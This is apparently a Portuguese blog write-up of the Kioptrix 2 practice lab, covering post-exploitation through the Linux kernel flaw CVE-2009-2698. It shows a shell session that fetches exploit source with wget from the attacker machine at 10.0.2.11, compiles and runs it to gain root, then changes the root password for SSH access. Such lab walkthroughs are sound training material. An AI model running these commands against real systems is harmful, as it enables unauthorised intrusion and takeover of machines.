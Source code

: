 ```bash

```
Shell obtida:

![shell reversa](https://raw.githubusercontent.com/Pre4ch3r/blog/assets/images/kioptrix_2_image/k2-5.png)

## Pós exploração

Nessa fase procuro elevar os privilégios de usuário e manter acesso persistente na máquina alvo. O alvo era vulnerável a uma falha no kernel linux, na sua versão 2.6.19. Para saber a versão do kernel no linux use o comando *uname -a*.

**Vulnerabilidade:** CVE-2009-2698

**Explicação:**
A função udp_sendmsg na implementação do UDP em (1) net/ipv4/udp.c e (2) net/ipv6/udp.c no kernel do Linux antes de 2.6.19 permite que os usuários locais *obtenham privilégios* ou causem uma negação de serviço (desreferência de ponteiro NULL e falha do sistema) por meio de vetores que envolvem o sinalizador MSG_MORE e um soquete UDP.

**Solução:** Atualizar o kernel para versões mais recentes.


**Risco:** Crítico

**Prova de Conceito:**
Trecho do uso do exploit **0x82-CVE-2009-269** que pode ser encontrado no GitHub:

```bash
#upando da minha máquina para a máquina alvo
bash-3$ wget http://10.0.2.11:8000/0x82-CVE-2009-2698.c
--07:17:01-- http://10.0.2.11:8000/0x82-CVE-2009-2698.c
           => 0x82-CVE-2009-2698.c
Connecting to 10.0.2.11:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,535 (2.5K)[text/x-csrc]
                                                                                                                                                                     
100%[====================================>] 2,535        --.--K/s
                                                                                                                                                                     
07:17:01 (12.46 MB/s) - 0x82-CVE-2009-2698.c saved [2535/2535]  

#compilando o código de acordo com as instruções no próprio exploit

bash-3.00$ gcc -o 0x82-CVE-2009-2698 0x82-CVE-2009-2698.c && ./0x82-CVE-2009-269

0x82-CVE-2009-2698.c:109:28: warning: no newline at end of file

sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)

```
Após mudar a senha do root usando o comando *passwd*, acessei o servidor via *ssh*. A gravura a seguir mostra o comando e acesso root ao servidor.
